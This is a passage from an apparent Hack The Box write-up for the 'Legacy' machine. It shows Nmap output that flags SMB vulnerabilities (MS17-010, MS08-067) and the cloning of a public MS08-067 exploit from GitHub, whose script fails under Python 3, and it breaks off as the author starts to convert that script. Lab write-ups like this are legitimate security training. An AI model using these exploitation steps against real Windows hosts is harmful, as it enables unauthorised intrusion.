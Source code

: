 ```
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 48.92 seconds
```

If we look at the output closely, the open ports are vulnerable to both `MS08-067` and `MS17-010`. Which we can pull from `Github` for exploit later.

## Initial Foothold and ... Root

#### MS08-067

I will be focusing more on using `MS08-067` exploit. This exploit is quite old and need some tinker here and there a bit before it can really work. I will be using [this](https://github.com/andyacer/ms08_067) exploit from Github. 

> You'll need to update Kali's Impacket version to 0_9_17 or above to use this.

Let clone the repo to our working directory and run the exploit: 

```
git clone https://github.com/andyacer/ms08_067.git
Cloning into 'ms08_067'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37
Receiving objects: 100% (37/37), 13.01 KiB | 13.01 MiB/s, done.
Resolving deltas: 100% (11/11), done.

python3 ms08_067_2018.py                                                                                                                            1 ⨯
  File "/home/kali/HacktheBox/Retired Machine/Legacy/ms08_067/ms08_067_2018.py", line 13
    except ImportError, _:
                      ^
SyntaxError: invalid syntax
```

Realise when we run it with `python3` it will tell us invalid syntax. Running it on `python2` will give us another headache on installing the `impacket` when by right we don't have to install it anymore. The kali update should ship with it (I GUESS ????). Anyway, I will use `2to3-2.7` command to convert the existing script to support or run using `python3`: 
